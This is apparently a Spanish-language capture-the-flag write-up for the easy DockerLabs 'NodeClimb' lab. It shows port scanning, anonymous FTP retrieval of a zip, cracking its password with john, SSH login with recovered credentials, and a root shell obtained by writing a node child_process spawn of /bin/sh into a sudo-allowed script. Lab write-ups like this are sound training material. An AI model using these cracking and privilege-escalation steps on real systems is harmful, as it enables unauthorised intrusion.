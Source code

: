 ```yaml
---
layout: post
title: NodeClimb
date: 2024.07.05
categories: [dockerlabs, ctf, linux, facil]
---
```


![image](/assets/images/node/node.png)

Estamos ante un docker que contiene una distribución Linux. Es de nivel fácil y es de la plataforma [dockerlabs](https://dockerlabs.es/).

# Enumeración

Ponemos el docker en marcha con el `auto_deploy.sh` que trae el zip. Cuando termina de cargar nos indica la dirección IP de nuestra víctima, en nuestro caso es `172.17.0.2`.

Empezamos realizando un escaneo de puertos con `nmap`. Hacemos un escaneo silencioso`-sS`, a todos los puertos `-p-`, que nos de detalles del escaneo `-v`, que no haga ping al host `-Pn`, que no haga resolución de DNS `-n` a nuestra máquina victima `172.17.0.2`:

```bash
$ sudo nmap -sS -p- -Pn -n -v 172.17.0.2
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
```

Vemos que solo tiene los puertos **21** y **22**  abiertos. Vamos a realizar otro escaneo con `nmap` pero esta vez para detectar la versión del servicio que este corriendo, `-sV`, y para ejecutar los scripts por defecto para detectar vulnerabilidades, `-sC`:

```bash
$ sudo nmap -sCV -p21,22 172.17.0.2
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             242 Jul 05 09:34 secretitopicaron.zip
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 cd:1f:3b:2d:c4:0b:99:03:e6:a3:5c:26:f5:4b:47:ae (ECDSA)
|_  256 a0:d4:92:f6:9b:db:12:2b:77:b6:b1:58:e0:70:56:f0 (ED25519)
```

# Intrusión

Vemos que nos podemos conectar al servidor **ftp** como usuario *anónimo* y que además hay un fichero a nuestro alcance. Entramos como **ftp** y nos lo descargamos:

```bash
$ ftp ftp@172.17.0.2
Connected to 172.17.0.2.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||8580|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             242 Jul 05 09:34 secretitopicaron.zip
226 Directory send OK.
ftp> get secretitopicaron.zip
local: secretitopicaron.zip remote: secretitopicaron.zip
229 Entering Extended Passive Mode (|||49269|)
150 Opening BINARY mode data connection for secretitopicaron.zip (242 bytes).
100% |******************|   242        1.77 MiB/s    00:00 ETA
226 Transfer complete.
242 bytes received in 00:00 (183.76 KiB/s)
ftp> bye
221 Goodbye.
```

Intentamos descomprimirlo pero vemos que tiene una contraseña. Creamos el hash del fichero zip con **zip2john**: 

```bash
$ zip2john secretitopicaron.zip > zip.hash
ver 1.0 efh 5455 efh 7875 secretitopicaron.zip/password.txt PKZIP Encr: 2b chk, TS_chk, cmplen=52, decmplen=40, crc=59D5D024 ts=4C03 cs=4c03 type=0
```

Y después intentamos sacar la password del fichero zip:

```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt zip.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password1        (secretitopicaron.zip/password.txt)     
1g 0:00:00:00 DONE (2024-07-05 23:00) 25.00g/s 102400p/s 102400c/s 102400C/s 123456..oooooo
```

En un segundo tenemos la clave, descomprimimos el fichero y la vemos:

```bash
$ cat password.txt 
mario:laKontraseñAmasmalotaHdelbarrioH
```

Nos conectamos al servidor **ssh** como *mario*:

```bash
$ ssh mario@172.17.0.2
mario@172.17.0.2's password: 
Linux 014bc8cff695 6.8.11-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.8.11-1kali2 (2024-05-30) x86_64
```

# Escalada de privilegios

Vemos que puede ejecutar como **root**:

```bash
mario@014bc8cff695:~$ sudo -l
Matching Defaults entries for mario on 014bc8cff695:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User mario may run the following commands on 014bc8cff695:
    (ALL) NOPASSWD: /usr/bin/node /home/mario/script.js
```

Puede ejecutar un script en node que esta vacio en el home de mario. Miramos a ver si hay algo en el historial de bash:

```bash
mario@014bc8cff695:~$ cat .bash_history 
sudo -l
sudo /usr/local/bin/node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})' 
/usr/local/bin/node
locate node
apt install locate
exit
sudo -l
/usr/bin/node
sudo /usr/bin/node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
exit
sudo -l
ls
exit
ls
whoami
sudo -l
cat script.js 
ls -l
exit

```

Curiosamente nos da una pista de cómo obtener la shell desde node. Añadimos al fichero **script.js** la función para la creación de una shell:

```bash
mario@014bc8cff695:~$ echo 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})' > script.js
```

Y ejecutamos el comando con sudo:

```bash
$ sudo /usr/bin/node /home/mario/script.js# whoami;hostname;date
root
014bc8cff695
Fri Jul  5 21:14:24 UTC 2024
#
```

Con esto ya seriamos **root** en la máquina.

Un saludo